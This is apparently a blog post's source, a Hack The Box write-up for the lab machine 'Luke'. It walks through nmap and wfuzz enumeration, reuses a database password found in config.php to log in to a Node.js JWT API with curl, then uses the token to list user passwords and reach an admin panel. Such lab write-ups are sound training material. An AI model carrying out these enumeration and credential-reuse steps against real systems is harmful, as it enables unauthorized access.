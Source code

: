 ```yaml
---
layout: post
title: "HTB Writeup - Luke"
date: 2019-07-24 12:00:00 +0000
---
```


# HTB writeup - Luke
<br />
As always let's start with nmap:
```
root@kali:~/# nmap -sV -sT -sC -o nmapinitial luke.htb
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-13 12:57 EET
Nmap scan report for luke.htb (10.10.10.137)
Host is up (0.23s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.xx.xx
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp   open  ssh?
80/tcp   open  http    Apache httpd 2.4.38 ((FreeBSD) PHP/7.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.38 (FreeBSD) PHP/7.3.3
|_http-title: Luke
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
8000/tcp open  http    Ajenti http control panel
|_http-title: Ajenti

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.84 seconds
root@kali:~/Desktop/HTB/boxes/luke#
```

The first noteceable thing is the FTP service which appears to be quite updated, therefore I don't want to investigate it at the moment. However, It allows anonymous login.
We then have HTTP on ports 80, 3000, 8000 and SSH.
From the banners grabbed by nmap, we can see that on port 3000 there is a node.js application, on port 8000 Ajenti Administration Panel. 

Logging in anonymously on the FTP, the only thing we find is a message giving us two potential usernames: Chihiro and Derry. 

# HTTP on 80
On the port 80 we find a simple HTML website: 
<img src="/assets/luke1.PNG" alt="drawing" width="600"/>

Bruteforcing the directories: 
```
root@kali:~/# wfuzz -c --hc 404 -u http://luke.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt  

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://luke.htb/FUZZ
Total requests: 4614

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000011:  C=403      9 L       24 W          213 Ch        ".hta"
000001:  C=200    108 L      240 W         3138 Ch        ""
000012:  C=403      9 L       24 W          218 Ch        ".htaccess"
000013:  C=403      9 L       24 W          218 Ch        ".htpasswd"
001114:  C=301      7 L       20 W          228 Ch        "css"
002020:  C=200    108 L      240 W         3138 Ch        "index.html"
002179:  C=301      7 L       20 W          227 Ch        "js"
002282:  C=200     21 L      172 W         1093 Ch        "LICENSE"
002435:  C=401     12 L       46 W          381 Ch        "management"
002485:  C=301      7 L       20 W          231 Ch        "member"
004286:  C=301      7 L       20 W          231 Ch        "vendor"

Total time: 116.3713
Processed Requests: 4614
Filtered Requests: 4603
Requests/sec.: 39.64892

root@kali:~/Desktop/HTB/boxes/luke# wfuzz -c --hc 404 -u http://luke.htb/FUZZ.php -w /usr/share/wordlists/dirb/common.txt                                                                                         

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.                                                         

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://luke.htb/FUZZ.php
Total requests: 4614

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

000011:  C=403      9 L       24 W          217 Ch        ".hta"
000012:  C=403      9 L       24 W          222 Ch        ".htaccess"
000013:  C=403      9 L       24 W          222 Ch        ".htpasswd"
000994:  C=200      6 L       25 W          202 Ch        "config"
002347:  C=200     39 L      118 W         1593 Ch        "login"

Total time: 140.0363
Processed Requests: 4614
Filtered Requests: 4609
Requests/sec.: 32.94859
```

We got /management, /member, /config.php and /login.php. 

The only interesting things I found are some db credentials on config.php: 
```
$dbHost = 'localhost'; $dbUsername = 'root'; $dbPassword = 'Zk6heYCyv6ZE9Xcg'; $db = "login"; $conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error); 
```

I usualy take note of all the logins location. I tried several with those creds, with no luck. 
The only thing left is the node.js application, which uses JWT tokens for auth: 
```
root@kali:~/Desktop/HTB/boxes/luke# curl http://luke.htb:3000/
{"success":false,"message":"Auth token is not supplied"}
```

Googling the response, I found [this article on medium]([https://medium.com/dev-bits/a-guide-for-adding-jwt-token-based-authentication-to-your-single-page-nodejs-applications-c403f7cf04f4]).

Fuzzing the application, we can see that the /login does exist:
```
root@kali:~/Desktop/HTB/boxes/luke# wfuzz -c --hc 404 -u http://luke.htb:3000/FUZZ -w /usr/share/wordlists/dirb/common.txt

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://luke.htb:3000/FUZZ
Total requests: 4614

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=200      0 L        5 W           56 Ch        ""
002347:  C=200      0 L        2 W           13 Ch        "login"
002348:  C=200      0 L        2 W           13 Ch        "Login"
004245:  C=200      0 L        5 W           56 Ch        "users"

Total time: 147.3540
Processed Requests: 4614
Filtered Requests: 4610
Requests/sec.: 31.31234
```

I tried logging in with the username admin and it worked:
```
curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg","username":"admin"}' http://luke.htb:3000/login 
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4MzczNjA0LCJleHAiOjE1Njg0NjAwMDR9.Xt854IyFtvP4nQbQa_l63hIJ3aewfVT98gqz5gfU5Us"}
```

We now have access to the application with our token!

/users now returns a list of user; /users/username reveals more info about each user:
```
root@kali:~/Desktop/HTB/boxes/luke# curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4MzczNjA0LCJleHAiOjE1Njg0NjAwMDR9.Xt854IyFtvP4nQbQa_l63hIJ3aewfVT98gqz5gfU5Us' http://luke.htb:3000/users/derry
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
```
It is possible to login to /management as Derry. Here we found the credentials for Ajenti, which is a tool to manage a remote Linux using terminal, file manager...etc. 
Once we got access to Ajenti, we owned the box! 



